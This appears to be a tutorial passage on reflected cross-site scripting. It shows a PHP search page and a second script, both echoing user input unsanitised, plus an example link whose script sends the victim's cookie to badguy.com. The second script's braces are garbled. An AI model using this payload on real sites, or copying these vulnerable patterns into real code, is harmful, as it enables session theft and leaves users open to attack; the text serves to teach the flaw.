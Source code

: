 The server side implementation for search.php is as follows

```php
<html>
<title> Search Results </title>
<body>
	Results for <?php echo $_GET['term']; ?>
	// Do other stuff
</body>
</html>
```

The search term, reaches the server. It is fetched from \$\_GET and at the end of it, is echoed back by the server.
This means that anything that is sent as the search term would be rendered in the client's browser. If the attacker managed to send a script in the search term, it would get executed as well. 

This would look like follows

```html
http://victim.com/search.php?term=<script>window.open(“http:\/\/badguy.com?cookie = ” + document.cookie)</script>
```
When the user clicks this link
1. Browser goes to victim.com/search.php
2. Victim.com returns
```html
<html> Results for <script> … </script> </html>
```
3. Browser executes script, which sends www.badguy.com, the cookie for www.victim.com

<div style="text-align:center;">
    <img src="/images/reflected_xss.png" alt="Reflected XSS"/>
</div>

#### Sever Side Script

```php
<?php
	extract($_GET);
	echo "<a href='http://localhost/abc.pdf'>DOWNLOAD HERE</a><br/>";
	if(isset($usr))
	{
		// Again a devastating mistake by the server.
		// Merely checking whether the input parameter is empty or not
		// is no good. The $usr variable must be sanitised.

		// Otherwise the value is blindly sent back to the client.
		// If this is a script, then it will be delivered to the client
		// and will execute on his window, which is what is exploited
		// by the hacker (see evilmind.html)
		echo "Thank you!! $usr!!!";
	}
	else
	{
		echo "Thank you!! Guest!!!";
?>
	}
```
